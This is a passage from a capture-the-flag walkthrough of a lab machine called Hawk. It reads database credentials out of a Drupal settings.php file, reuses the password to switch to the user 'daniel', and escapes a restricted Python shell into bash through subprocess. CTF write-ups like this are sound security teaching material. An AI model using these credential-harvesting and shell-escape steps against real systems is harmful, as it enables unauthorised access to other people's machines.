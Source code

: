 

## Lateral Movement

First, we need to find a way to access the user "daniel." To do so, let's consider where credentials are commonly stored. One possible location is a file called "settings.php." We can use the "locate" command to search for "settings.php" and find its location. Once we have the location, we can use the "cat" command to print the contents of /var/www/html/sites/default/settings.php.

```bash

$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupal',
      'password' => 'drupal4hawk',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);


```

Voilà! Now we can execute su daniel with the password "drupal4hawk" and switch to the "daniel" user.

```bash

www-data@hawk:/var/www/html/sites/default$ su daniel
Password: 
Python 3.6.5 (default, Apr  1 2018, 05:46:30) 
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 

```

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716022055.png)

That's strange, but alright. While searching on Google for how to obtain a bash shell, I came across the following information on GeeksforGeeks

![alt text](https://raw.githubusercontent.com/FabV05/files/main/Hawk/Pasted%20image%2020230716022831.png)

Now, adapting this to our case, it will look like the following:

```python
>>> import subprocess
>>> print(subprocess.run(["/bin/bash","arguments"], shell=True))
daniel@hawk:/var/www/html/sites/default$ 
```
